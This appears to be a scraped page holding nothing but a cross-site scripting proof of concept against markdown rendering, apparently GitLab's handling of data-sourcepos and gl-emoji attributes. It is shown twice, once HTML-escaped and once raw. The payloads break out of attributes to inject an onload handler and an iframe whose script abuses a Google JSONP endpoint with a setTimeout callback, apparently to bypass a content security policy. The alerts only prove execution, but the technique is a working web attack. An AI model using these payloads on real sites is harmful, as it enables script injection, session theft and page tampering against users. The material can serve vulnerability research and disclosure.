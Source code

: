 # rynewzxxxxxxxxxxxxxxxx
&lt;pre data-sourcepos="&amp;#34; href=&amp;#34;x&amp;#34;>&lt;/pre> &lt;gl-emoji data-name='&amp;#34;x=&amp;#34y&amp;#34 onload=&amp;#34;alert(document.location.href)&amp;#34;' data-unicode-version='x'> abc &lt;/gl-emoji> &lt;pre x=&amp;#34;"> &lt;code>&lt;/code>&lt;/pre>     &lt;pre data-sourcepos="&amp;#34;>&lt;/pre> &lt;gl-emoji data-name='&amp;#34;x=&amp;#34y&amp;#34>&lt;iframe srcdoc=&amp;#34;&lt;script src=https://apis.google.com/complete/search?client=chrome&amp;amp;q=alert(document.domain);//&amp;amp;callback=setTimeout>&lt;/script>&amp;#34;' data-unicode-version='x'> abc &lt;/gl-emoji> &lt;pre x=&amp;#34;"> &lt;code>&lt;/code>&lt;/pre>
<pre data-sourcepos="&#34; href=&#34;x&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34 onload=&#34;alert(document.location.href)&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>




<pre data-sourcepos="&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34><iframe srcdoc=&#34;<script src=https://apis.google.com/complete/search?client=chrome&amp;q=alert(document.domain);//&amp;callback=setTimeout></script>&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>
